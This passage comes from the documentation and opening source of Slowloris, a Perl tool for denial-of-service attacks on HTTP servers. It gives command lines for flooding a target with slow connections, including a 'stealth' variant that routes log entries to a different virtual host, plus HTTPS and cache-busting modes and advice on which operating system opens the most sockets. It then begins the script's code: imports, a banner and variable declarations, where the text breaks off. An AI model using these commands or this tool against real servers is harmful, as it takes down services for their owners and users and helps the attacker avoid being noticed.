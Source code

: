 -num 500 -tcpto 5 -httpready  =head2 Stealth Host DoS  If you know the server has multiple webservers running on it in virtual hosts, you can send the attack to a seperate virtual host using the -shost variable.  This way the logs that are created will go to a different virtual host log file, but only if they are kept separately.  =head3 Stealth Host DoS Example:  ./slowloris.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com  =head2 HTTPS DoS  Slowloris does support SSL/TLS on an experimental basis with the -https switch.  The usefulness of this particular option has not been thoroughly tested, and in fact has not proved to be particularly effective in the very few tests I performed during the early phases of development.  Your mileage may vary.  =head3 HTTPS DoS Example:  ./slowloris.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https  =head2 HTTP Cache  Slowloris does support cache avoidance on an experimental basis with the -cache switch.  Some caching servers may look at the request path part of the header, but by sending different requests each time you can abuse more resources.  The usefulness of this particular option has not been thoroughly tested.  Your mileage may vary.  =head3 HTTP Cache Example:  ./slowloris.pl -dns www.example.com -port 80 -timeout 30 -num 500 -cache  =head1 Issues  Slowloris is known to not work on several servers found in the NOT AFFECTED section above and through Netscalar devices, in it's current incarnation.  They may be ways around this, but not in this version at this time.  Most likely most anti-DDoS and load balancers won't be thwarted by Slowloris, unless Slowloris is extremely distrubted, although only Netscalar has been tested.   Slowloris isn't completely quiet either, because it can't be.  Firstly, it does send out quite a few packets (although far far less than a typical GET request flooder).  So it's not invisible if the traffic to the site is typically fairly low.  On higher traffic sites it will unlikely that it is noticed in the log files - although you may have trouble taking down a larger site with just one machine, depending on their architecture.  For some reason Slowloris works way better if run from a *Nix box than from Windows.  I would guess that it's probably to do with the fact that Windows limits the amount of open sockets you can have at once to a fairly small number.  If you find that you can't open any more ports than ~130 or so on any server you test - you're probably running into this "feature" of modern operating systems.  Either way, this program seems to work best if run from FreeBSD.    Once you stop the DoS all the sockets will naturally close with a flurry of RST and FIN packets, at which time the web server or proxy server will write to it's logs with a lot of 400 (Bad Request) errors.  So while the sockets remain open, you won't be in the logs, but once the sockets close you'll have quite a few entries all lined up next to one another.  You will probably be easy to find if anyone is looking at their logs at that point - although the DoS will be over by that point too.  =head1 What is a slow loris?  What exactly is a slow loris?  It's an extremely cute but endangered mammal that happens to also be poisonous.  Check this out:  http://www.youtube.com/watch?v=rLdQ3UhLoD4#!/usr/bin/perl -w use strict; use IO::Socket::INET; use IO::Socket::SSL; use Getopt::Long; use Config;  $SIG{'PIPE'} = 'IGNORE';    #Ignore broken pipe errors  print &lt;&lt;EOTEXT; CCCCCCCCCCOOCCOOOOO888\@8\@8888OOOOCCOOO888888888\@\@\@\@\@\@\@\@\@8\@8\@\@\@\@888OOCooocccc:::: CCCCCCCCCCCCCCCOO888\@888888OOOCCCOOOO888888888888\@88888\@\@\@\@\@\@\@888\@8OOCCoococc::: CCCCCCCCCCCCCCOO88\@\@888888OOOOOOOOOO8888888O88888888O8O8OOO8888\@88\@\@8OOCOOOCoc:: CCCCooooooCCCO88\@\@8\@88\@888OOOOOOO88888888888OOOOOOOOOOCCCCCOOOO888\@8888OOOCc:::: CooCoCoooCCCO8\@88\@8888888OOO888888888888888888OOOOCCCooooooooCCOOO8888888Cocooc: ooooooCoCCC88\@88888\@888OO8888888888888888O8O8888OOCCCooooccccccCOOOO88\@888OCoccc ooooCCOO8O888888888\@88O8OO88888OO888O8888OOOO88888OCocoococ::ccooCOO8O888888Cooo oCCCCCCO8OOOCCCOO88\@88OOOOOO8888O888OOOOOCOO88888O8OOOCooCocc:::coCOOO888888OOCC oCCCCCOOO88OCooCO88\@8OOOOOO88O888888OOCCCCoCOOO8888OOOOOOOCoc::::coCOOOO888O88OC oCCCCOO88OOCCCCOO8\@\@8OOCOOOOO8888888OoocccccoCO8O8OO88OOOOOCc.:ccooCCOOOO88888OO CCCOOOO88OOCCOOO8\@888OOCCoooCOO8888Ooc::...::coOO88888O888OOo:cocooCCCCOOOOOO88O CCCOO88888OOCOO8\@\@888OCcc:::cCOO888Oc..... ....cCOOOOOOOOOOOc.:cooooCCCOOOOOOOOO OOOOOO88888OOOO8\@8\@8Ooc:.:...cOO8O88c.      .  .coOOO888OOOOCoooooccoCOOOOOCOOOO OOOOO888\@8\@88888888Oo:. .  ...cO888Oc..          :oOOOOOOOOOCCoocooCoCoCOOOOOOOO COOO888\@88888888888Oo:.       .O8888C:  .oCOo.  ...cCCCOOOoooooocccooooooooCCCOO CCCCOO888888O888888Oo. .o8Oo. .cO88Oo:       :. .:..ccoCCCooCooccooccccoooooCCCC coooCCO8\@88OO8O888Oo:::... ..  :cO8Oc. . .....  :.  .:ccCoooooccoooocccccooooCCC :ccooooCO888OOOO8OOc..:...::. .co8\@8Coc::..  ....  ..:cooCooooccccc::::ccooCCooC .:::coocccoO8OOOOOOC:..::....coCO8\@8OOCCOc:...  ....:ccoooocccc:::::::::cooooooC ....::::ccccoCCOOOOOCc......:oCO8\@8\@88OCCCoccccc::c::.:oCcc:::cccc:..::::coooooo .......::::::::cCCCCCCoocc:cO888\@8888OOOOCOOOCoocc::.:cocc::cc:::...:::coocccccc ...........:::..:coCCCCCCCO88OOOO8OOOCCooCCCooccc::::ccc::::::.......:ccocccc:co .............::....:oCCoooooCOOCCOCCCoccococc:::::coc::::....... ...:::cccc:cooo  ..... ............. .coocoooCCoco:::ccccccc:::ccc::..........  ....:::cc::::coC    .  . ...    .... ..  .:cccoCooc:..  ::cccc:::c:.. ......... ......::::c:cccco   .  .. ... ..    .. ..   ..:...:cooc::cccccc:.....  .........  .....:::::ccoocc        .   .         .. ..::cccc:.::ccoocc:. ........... ..  . ..:::.:::::::ccco  Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client EOTEXT  my ( $host, $port, $sendhost, $shost, $test, $version, $timeout,